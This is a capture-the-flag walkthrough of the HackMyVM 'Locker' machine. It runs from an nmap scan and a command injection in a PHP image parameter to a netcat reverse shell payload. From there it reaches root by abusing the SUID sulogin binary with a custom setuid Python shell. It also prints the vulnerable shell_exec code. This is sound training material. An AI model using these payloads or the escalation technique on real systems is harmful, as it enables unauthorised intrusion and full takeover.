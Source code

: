 ```yaml
---
title: CTF Walkthrough for HackMyVM Machine Locker
category: [Walkthrough, CTF]
tags: [HackMyVM, Writeup, Command Injection]   
image:
  path: /assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/box-locker.png
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Locker a machine among HackMyVM machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Locker<br>
Goal: Get two flags<br>
OS: Linux<br>
Download link: [Locker](https://downloads.hackmyvm.eu/locker.zip)<br>
### Tools used
1) Nmap<br>
3) ffuf<br>
4) Netcat<br>

## Reconnaissance

This machine reveals its IP address on startup, we can use that address to perform a service discovery scan on the target.
```bash
┌──(pentester㉿kali)-[~/Locker/Scans/Service]
└─$nmap -sC -sV -n 10.0.2.24 -oN service-scan.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 09:49 BST
Nmap scan report for 10.0.2.24
Host is up (0.0019s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.47 seconds
```

The target appears to run only an Nginx web server. Let's visit this web application to understand how it works.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/1-browse.png)

We see that the server runs a simple web application. When we click on Model 1, we are redirected to the locker.php page that displays the image of a locker.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/2-browse.png)

If we take a closer look at the request made, we will notice that the image is embedded in web pages without separate files as a base64 string and rendered with the help of the data PHP filter. This means the image is first encoded in the backend and the base64 string is passed to the page for it to be displayed.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/raw-requests.png)

Converting an image from binary to base64 can be done in several ways, one includes running system commands and capturing the value returned. With this idea, we can start testing the web application for any command injection vulnerability. If we assume that the value of the parameter image is the name of the image, it means this value is used in the command. Let's embed our command in ```$()``` to ensure that it is always executed. We can start a listener on our attack host and attempt to connect to that listener from the target machine.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/command-injection-proof.png)

## Exploitation

In the image above, we see that the target is connected to our attack host hence the web application is vulnerable to command injection. Now, let's gain a reverse shell on the target.
```bash
Listener: nc -lvnp 9000
Payload : $(nc -c bash 10.0.2.16 9000)
```
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/reverse-shell.png)

We can use these commands to upgrade the shell above to a fully interactive shell to facilitate our enumeration process.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")' 
www-data@locker:~/html$ ^Z
zsh: suspended  nc -lvnp 9000

┌──(pentester㉿kali)-[~/Locker]
└─$stty raw -echo;fg
[1]  + continued  nc -lvnp 9000
                               export TERM=xterm
www-data@locker:~/html$ 
```

We can optionally read the code to understand its functioning and how our command injection came to live.
```bash
www-data@locker:~/html$ ls
1.jpg  2.jpg  3.jpg  index.html  locker.php
www-data@locker:~/html$ cat locker.php 
<?php
$image = $_GET['image'];
$command = "cat ".$image.".jpg | base64";
$output = shell_exec($command);
print'<img src="data:image/jpg;base64,'.$output.'"width="150"height="150"/>';
?>
```

## Post Exploitation

At this point in our assessment, we have obtained a foothold on the target and we would like to elevate our privileges to that of the root user. We can start our enumeration by listing all binaries with the SUID bit set.
```bash
www-data@locker:~$ find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
<SNIP>
-rwsr-sr-x 1 root root 47184 Jan 10  2019 /usr/sbin/sulogin
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
<SNIP>
www-data@locker:~$ 
```

We can see that the target has an uncommon binary called sulogin with a SUID bit set. Unfortunately, GTFOBin doesn't have any entry for this binary so let's read its man page to understand what it does.
```bash
www-data@locker:~$ man sulogin
<SNIP>
OPTIONS                                                        
       -e, --force                                                                                                                                           
              If  the  default  method of obtaining the root password from the 
              system via  getpwnam(3)  fails,  then  examine  /etc/passwd  and
              /etc/shadow  to get the password.  If these files are damaged or 
              nonexistent, or when root account is locked by '!' or '*' at the 
              begin of the password then sulogin will start a root shell with‐
              out asking for a password.
<SNIP>
ENVIRONMENT VARIABLES
       sulogin looks for the environment variable SUSHELL or sushell to deter‐
       mine what shell to start.  If the environment variable is not  set,  it
       will  try  to execute root\'s shell from /etc/passwd.  If that fails, it
       will fall back to /bin/sh.
<SNIP>
www-data@locker:~$ 
```

The man page reveals that this binary can be used to start the shell stored in the SUSSHELL environment variable. Also, when used with the -e options we can start a root shell without asking for a password. To exploit this binary, let's create a custom shell that elevates our privilege directly to that of the root user by leveraging the permissions offered by the SUID bit. We can use Python to create a short script as shown below.
```bash
www-data@locker:/tmp$ cat shell 
#!/usr/bin/python3

import os
os.setuid(0)
os.setgid(0)
os.system("/bin/bash")
www-data@locker:/tmp$ chmod 755 shell 
www-data@locker:/tmp$ ls -la shell 
-rwxr-xr-x 1 www-data www-data 79 Sep 21 07:49 shell
```

Next, let's set the SUSSHELL variable to the path to our custom shell and run the sulogin command with the -e option.
```bash
www-data@locker:/tmp$ export SUSHELL=/tmp/shell
www-data@locker:/tmp$ /usr/sbin/sulogin -e
Press Enter for maintenance
(or press Control-D to continue): 
root@locker:~# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@locker:~# ls /root
flag.sh  root.txt
root@locker:~# 
root@locker:~# ls -l /home/tolocker/  
total 8
-rwxr-xr-x 1 tolocker tolocker 1920 Jan 22  2021 flag.sh
-rw------- 1 tolocker tolocker   14 Jan 22  2021 user.txt
```
Great, we successfully obtained a root shell on the target. We can use this shell to read both flags on the system as shown above.

## Conclusion

Congratulations! In this walkthrough, you have exploited a command injection vulnerability to obtain a foothold on the target. This machine was designed to show the importance of sanitising user input before using it in system commands. Thank you for following up on this walkthrough.
